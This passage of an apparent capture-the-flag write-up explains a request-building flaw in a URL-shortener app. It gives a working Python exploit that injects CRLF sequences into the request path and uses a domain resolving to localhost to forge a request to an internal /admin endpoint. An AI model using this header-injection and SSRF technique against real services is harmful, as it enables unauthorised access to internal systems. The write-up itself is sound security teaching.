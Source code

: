 ```py
        host, port = host_and_port
        path = rest[len(f"{host}:{port}"):]
    else:
        host, port = host_and_port[0], None
        path = rest[len(host):]

    return scheme, host, int(port) if port else None, path
```

Nothing interesting, it just splits the url in 4 different parts. <br/>
The actual request is made with the body below. <br/>
```py
req = (
    f"{method} {path} HTTP/1.1\r\n"
    f"Host: {hostname}\r\n"
    f"User-Agent: fasttravel/0.1\r\n"
    f"Connection: close\r\n\r\n"
).encode("utf-8")
```

Now `method` is not a parameter which we control, the hostname parameter is controlled by us but is heavily restricted and can't be tampered with in a way that's useful for us. 
The `path` parameter seems interesting though as there are no actual restrictions on what it may contain. <br/>
The `urlparse` doesn't actually restrict the use of `\r` or `\n`, knowing this we could try to tamper with the `path` parameter. <br/>
We essentially want the request to call `/admin` with the host being `localhost:5001` because that's where the application is being hosted inside the container. 
The `Host` header needs to be `localhost` or `localhost:5000` though. <br/>

Knowing all of this we can forge a HTTP-Request body. <br/>
```py
import string, requests

def url_encode(s: str) -> str: 
    # URL-Encode function from provided application 
    allowed = string.ascii_letters + string.digits + "-_.!~*'();/?:@&=+$,#"
    return "".join(f"%{ord(c):02x}" if c not in allowed else c for c in s)

payload = (
    # spoofed.burpcollaborator.net -> resolves to localhost without matching the string "localhost"
    f'http://spoofed.burpcollaborator.net:5001/admin '
    # Close First Header-Line with http method and path 
    f'HTTP/1.1\r\n'
    # Add "Host" Header to pass /admin check
    f'Host: localhost:5000\r\n\r\n'
)

r = requests.post('http://localhost:5000/shorten', data=f'source={url_encode(payload)}')

if r.status_code == 200:
    print(f'> FLAG should be available here: {r.url}')
else:
    print(f'> An error occurred!')
```
